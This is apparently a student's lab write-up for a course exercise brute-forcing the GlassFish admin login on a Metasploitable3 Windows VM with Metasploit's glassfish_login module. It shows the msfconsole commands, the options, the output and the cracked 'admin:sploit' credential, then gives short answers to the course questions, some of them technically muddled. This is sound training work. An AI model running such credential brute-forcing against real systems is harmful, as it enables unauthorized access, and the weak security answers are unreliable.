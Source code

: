 # Exercises
Penetration testing exercise using metasploit on Glassfish. The exercise
targets the Glassfish application server running under Windows in the metas-
ploitable~3 image. The test is performed via a brute force attack against the
login page.

In this exercise we need the Kali machine (for penetration testing) and the vulnerable
machine is the Metasploitable3 Windows image. It is the only exercise to be performed
against the Windows image and the last metasploitable exercise of the course.

Please note that all questions (full lines) marked with †should be answered in the report
which you submit as assignment 2. Note on the length of answers: Questions which are
described as discussion or open target an appropriate level of elaboration as you see fit,
whereas the other questions can typically be answered with a sentence. Nonetheless,
there are no length requirements on the answers.

While scanning for vulnernable services in Exercise~03, Glassfish running on port 4848
should have come up.

# Background
**†What does https actually provide protection for?**  
HTTPS which is an ecrypted version of the protocol provides protection against data/packet sniffing also called MITM attacks.  


# Brute Force Attack
Creating user.txt and pass.txt
````console
berkankutuk@kali:~$ nano user.txt
berkankutuk@kali:~$ nano pass.txt
````

Goint into msfconsole
````console
berkankutuk@kali:~$ msfconsole
msf6 > use auxiliary/scanner/http/glassfish_login
msf6 auxiliary(scanner/http/glassfish_login) > show options
  Name              Current Setting  Required  Description                                                                                                                                                                                  
  ----              ---------------  --------  -----------                                                                                                                                                                                  
  BLANK_PASSWORDS   false            no        Try blank passwords for all users                                                                                                                                                            
  BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5                                                                                                                                                          
  DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database                                                                                                                                 
  DB_ALL_PASS       false            no        Add all passwords in the current database to the list                                                                                                                                        
  DB_ALL_USERS      false            no        Add all users in the current database to the list                                                                                                                                            
  DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)                                                                                                  
  PASSWORD                           no        A specific password to authenticate with                                                                                                                                                     
  PASS_FILE                          no        File containing passwords, one per line
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT             4848             yes       The target port (TCP)
  SSL               false            no        Negotiate SSL/TLS for outgoing connections
  STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
  THREADS           1                yes       The number of concurrent threads (max one per host)
  USERNAME          admin            yes       A specific username to authenticate as
  USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
  USER_AS_PASS      false            no        Try the username as the password for all users
  USER_FILE                          no        File containing usernames, one per line
  VERBOSE           true             yes       Whether to print output for all attempts
  VHOST                              no        HTTP server virtual host
````

Setting the parameters
````console
msf6 auxiliary(scanner/http/glassfish_login) > set RHOST 10.0.2.5
msf6 auxiliary(scanner/http/glassfish_login) > set USER_FILE user.txt
msf6 auxiliary(scanner/http/glassfish_login) > set PASS_FILE pass.txt
````
RPORT is already set, so we move on.

Running the exploit
Setting the parameters
```console
msf6 auxiliary(scanner/http/glassfish_login) > exploit
[*] 10.0.2.5:4848 - Checking if Glassfish requires a password...
[*] 10.0.2.5:4848 - Glassfish is protected with a password
[-] 10.0.2.5:4848 - Failed: 'admin:1234567'

[!] No active DB -- Credential data will not be saved!
[-] 10.0.2.5:4848 - Failed: 'admin:password'
[-] 10.0.2.5:4848 - Failed: 'admin:Password'
[-] 10.0.2.5:4848 - Failed: 'admin:Password123'
...
[+] 10.0.2.5:4848 - Success: 'admin:sploit'
...
```

We got the credentials: `admin:sploit`

# Questions
**†Which username/password combination did you find?**  
Username: admin  
Password: sploit

**†Discuss which security relevant problems are we testing with a brute force attack?**  
Weak password that are common and unencrypted passwords

**†Discuss what would be your suggestions to the admin in order to address and mitigate
this issue?**   
Either random-generate or encrypt passwords.


**†How is this attack type related to the internet of things, internet routers, and, e.g.,
virtual machines?**  
Trial and error method in order to guess user credentials for an authorized system.

**†Do you know a way in which https could make the connection more secure against this
kind of attack?**  
By managing the incorrect login attempts and asking for CAPTCHA. Furthermore, by encypting the packet values so no others can eavedrop and thereby see the credentials in plain text.